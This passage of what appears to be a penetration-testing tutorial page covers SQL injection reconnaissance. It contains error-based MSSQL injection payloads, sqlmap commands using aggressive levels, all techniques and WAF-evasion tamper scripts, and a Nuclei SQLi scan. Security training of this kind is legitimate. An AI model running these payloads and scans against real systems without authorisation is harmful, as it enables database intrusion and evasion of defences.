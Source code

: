 #### Error Tests

Forces database errors to gather information about the backend:

```sql
username' AND 1=convert(int,@@version)--       # Forces type conversion error, reveals MSSQL version
username' AND 1=cast((SELECT @@version) as int)--  # Alternative version check for MSSQL
```

### Scanning with SQLMap

To learn how to use SQLMap in detail, you can go to our related tactic page by [click here](https://hackviser.com/tactics/tools/sqlmap).

#### SQLMap basic scan

```bash
sqlmap -u "http://target.com" 
```

#### SQLMap basic scan with crawling

```bash
sqlmap -u "http://target.com" --crawl=3 --batch --forms
# --crawl=3: Crawls the website up to 3 levels deep
# --batch: Never asks for user input, uses default responses
# --forms: Automatically tests all forms found
```

#### SQLMap scan with request file

```bash
sqlmap -r login-request.txt --level=5 --risk=3 --batch
# --level=5: Most through testing level (default is 1)
# --risk=3: Includes risky tests that could potentially cause problems (default is 1)
```

#### SQLMap advanced options for specific scenarios

```bash
sqlmap -u "http://target.com/api/endpoint" \
  --headers="Authorization: Bearer xxx" \  # Custom HTTP headers for API testing
  --technique=BEUSTQ \  # Use all techniques: Boolean, Error, Union, Stacked, Time, Query
  --dbms=mysql \        # Specify database type for more efficient testing
  --threads=10 \        # Parallel threads for faster scanning
  --tamper=space2comment,between  # Evade WAF by using comment instead of spaces and BETWEEN operator
```

### Scanning with Nuclei

```bash
nuclei -u "http://target.com" -t sqli/ -severity critical
# Scans target using Nuclei's SQL injection templates
# -severity critical: Only runs critical severity checks
```
